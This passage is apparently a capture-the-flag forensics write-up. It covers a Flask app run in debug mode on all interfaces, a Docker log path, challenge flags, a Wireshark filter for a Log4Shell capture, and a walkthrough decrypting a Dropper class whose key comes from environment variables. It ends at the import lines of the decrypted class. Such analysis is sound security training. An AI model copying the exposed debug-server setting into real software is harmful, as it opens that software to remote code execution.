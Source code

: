```
  app.run(debug=True, host='0.0.0.0')
  ```
![image](https://hackmd.io/_uploads/r1nCfo1PJg.png)

Request log at:

`whale\whale\var\lib\docker\containers\4e5f2fa4c43bba8c3123d068f2ec24e4399a860113d41cccbeb75c428cb04e`

![image](https://hackmd.io/_uploads/rymTzj1Pye.png)

B used as key for decryption

![image](https://hackmd.io/_uploads/HykCzj1v1g.png)


Flag:
`CJ{dae071f96aadfb8c2417ed6715711cb9e36e6c1e}`



## Log4Shell 1
`frame.coloring_rule.name == "Bad TCP" && frame.len == 141`
![image](https://hackmd.io/_uploads/r1vU7oywJg.png)

`CJ{c4n_y0u_c0ntinu3_unt1l_Flag_2?}`

## Log4Shell 2
continue from part 1, you will notice there is Dropper.class that exist in the pcap

![image](https://hackmd.io/_uploads/S1rYXokvke.png)

dump and decompile

This class, Dropper, is used to decrypt a Base64-encoded string and save the decrypted content to a file using AES encryption.

Key points:
- Get Secret Key: The secret key for decryption is obtained by fetching environment variables named FLAGPART1 to FLAGPART16 and concatenating them.
- Decrypt Method: The method decryptToFile takes a Base64-encoded string and decrypts it using the secret key, then writes the decrypted content to a file.
- AES Encryption: AES encryption is used with the mode ECB and padding PKCS5Padding

```
for (int i = 1; i <= 16; i++) {
            str = str + ((String) method.invoke(null, "FLAGPART" + i));
        }
```

notice that it only took the first 16 bytes so the key would be: `CJ{c4n_y0u_c0nt1`

using this key we will be able to decrypt the ct in the class and got another class

```
package defpackage;

import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.InputStreamReader;
import java.io.OutputStreamWriter;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.net.Socket;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.util.Arrays;
```